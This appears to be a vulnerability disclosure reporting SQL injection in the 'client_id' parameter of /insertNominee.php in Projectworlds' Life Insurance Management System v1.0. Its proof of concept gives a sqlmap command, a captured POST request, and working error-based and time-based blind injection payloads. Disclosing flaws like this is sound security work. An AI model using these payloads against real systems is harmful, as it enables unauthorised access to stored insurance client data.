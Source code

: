 

#  SQLi vulnerability in Life Insurance Management System v1.0 of file /insertNominee.php with param 'client_id'

**vender**:

- projectworlds

**SoftLink**:

- [Life Insurance Management System in PHP | Projectworlds](https://projectworlds.in/life-insurance-management-system-in-php/)

**Vulnerable File**

- /insertNominee.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt -p client_id --level 5 --batch
```



```http
POST /insertNominee.php HTTP/1.1
Host: www.lims.top
Cookie: PHPSESSID=sqvuccn7rsiqr9bhq7p29tfds2
Priority: u=0, i
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: http://www.lims.top
Content-Type: application/x-www-form-urlencoded
Referer: http://www.lims.top/addNominee.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 90

nominee_id=3&client_id=3&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3
```



```
---
Parameter: client_id (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: nominee_id=3&client_id=3' AND GTID_SUBSET(CONCAT(0x716b767071,(SELECT (ELT(5284=5284,1))),0x71786a7071),5284) AND 'UGBR'='UGBR&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: nominee_id=3&client_id=3' AND (SELECT 8478 FROM (SELECT(SLEEP(5)))Kufl) AND 'tgPh'='tgPh&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3
---
```




